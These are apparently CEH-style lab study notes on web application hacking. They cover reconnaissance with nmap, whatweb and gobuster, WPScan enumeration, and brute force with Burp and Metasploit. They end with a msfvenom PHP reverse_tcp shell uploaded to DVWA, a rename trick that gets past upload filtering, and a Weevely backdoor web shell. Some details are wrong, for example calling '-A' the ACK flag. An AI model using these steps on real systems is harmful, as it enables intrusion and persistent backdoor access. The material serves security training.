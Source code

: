 # Hacking Web Applications

Methods:
- SQL injection attacks
- cross-site scripting (XSS)
- cross-site request forgeries (CSRF)
- insecure communications
- brute-force
- parameter tampering

## Footprint
Tasks:
- Server Discovery
- Service Discovery
- Server Identification
- Hidden Content Discovery

### Web Application Reconnaissance
1. Whois lookup
  - Netcraft (https://www.netcraft.com)
  - SmartWhois (https://www.tamos.com)
  - WHOIS Lookup (http://whois.domaintools.com)
  - Batch IP Converter (http://www.sabsoft.com) 
2. DNS interrogation
  - Toolset (https://tools.dnsstuff.com)
  - DNSRecon (https://github.com)
  - DNS Records (https://network-tools.com)
  - Domain Dossier (https://centralops.net)

Steps:
1. ``` nmap -T4 -A -v [Target Web Application, domain name] ```
  - -T4: specifies setting time template (0-5)
  - -A: specifies setting ACK flag
  - -v: enables the verbose output
  - Get Information: target machine name, NetBIOS name, DNS name, MAC address, OS, and other information.
2. ``` telnet [target domain] 80 ```\
   ``` GET /HTTP/1.0 ```\
    displaying information related to the server name and its version, technology used
3. if the attacker entered an **IP address**, they receive the banner information of the target machine.\
   if they enter the **URL of a website**, they receive the banner information of the respective web server that hosts the website.

### WhatWeb
Recognizes content management systems (CMS), blogging platforms, statistics and analytics packages, JavaScript libraries, web servers, and embedded devices.\
Identifies version numbers, email addresses, account IDs, web framework modules, SQL errors

``` whatweb [Target Web Application] ```\
``` whatweb -v [Target Web Application] ```\
``` whatweb --log-verbose=[report name] [Target Web Application] ```\
write output to a text file

### OWASP ZAP
- Click "Automated Scan"
- Input "URL to attack"
- Result in "Alerts" tab

### Detect Load Balancer
2 types:
- Layer 4, DNS
- Layer 7, HTTP

``` dig [domain name] ```\
multiple IP addresses, possibly a load balancer.

``` lbd [domain name] ``` lbd (load balancing detector)\
detects if a given domain uses DNS and http load balancing via the Server: and Date: headers and the differences between server answers. It analyzes the data received from application responses to detect load balancers.

### Identify Web Server Directories
``` nmap -sV --script=http-enum [target domain or IP address] ```\
``` gobuster dir -u [Target Website] -w [worldlist path] ```\
  dir: uses directory or file brute-forcing mode

### Vulnerability Scan by Vega
Other tools:
- WPScan Vulnerability Database (https://wpscan.com), 
- Arachni (https://www.arachni-scanner.com), 
- appspider (https://www.rapid7.com), or 
- Uniscan (https://sourceforge.net) 

### Identify Clickjacking
  iframe
  
## Perform Web Application Attack

### Brute-force by Brup Suite
  Brup Suite: intercepting proxy, application-aware spider, advanced web application scanner, intruder tool, repeater tool, and sequencer tool.
  
  1. "Intruder" tab.
  2. Attack type choose "Cluster bomb".
  3. "Payloads" tab, set payload set and type, load wrodlists.
  4. click "start attack".

### Parameter Tampering by Brup Suite
  
  "Proxy" tab -> "Intercept" -> "Params"
  
### XSS Vulnerabilities
  
###  Cross-site Request Forgery (CSRF) Attack
  ``` wpscan --api-token [API Token from Step#25] --url http://10.10.10.16:8080/CEH --plugins-detection aggressive --enumerate vp ```\
  --enumerate vp: specifies the enumeration of vulnerable plugins.
  
### WPScan and Metasploit
  ``` wpscan --api-token [API Token] --url http://10.10.10.16:8080/CEH --enumerate u ```\
  --enumerate u: specifies the enumeration of usernames.
   
   auxiliary module called **wordpress_login_enum** (in **msfconsole**) to perform a dictionary attack using the password.txt 
  
### Remote Command Execution Vulnerability
  
  Damn Vulnerable Web App (DVWA) [link](https://dvwa.co.uk/)\
  The "Command Injection" tab.
  
### File Upload Vulnerability
  
  1. ``` msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP Address of Host Machine] LPORT=4444 -f raw ```
  2. copy the raw payload to a file.
  3. in DVWA`s "File Upload" panel, upload the raw file.
  4. In msfconsole, type use exploit/multi/handler 
  5. Browse the uploaded file`s path, like "http://10.10.10.16:8080/dvwa/hackable/uploads/upload.php"
  
  If security level is high, we can upload payload.jpg to the server. Then use Command Injection to change the file name to payload.php on the server side. Then the same.
  
### Gain Backdoor Access via a Web Shell using Weevely
  [link](https://www.kali.org/tools/weevely/)
  
  1. ``` weevely generate (backdoor password) (output file Path) ```
  2. upload backdoor to server.
  3. ``` weevely http://10.10.10.16:8080/dvwa/hackable/uploads/shell.php (backdoor password) ```
  4. weevely connect to the server.
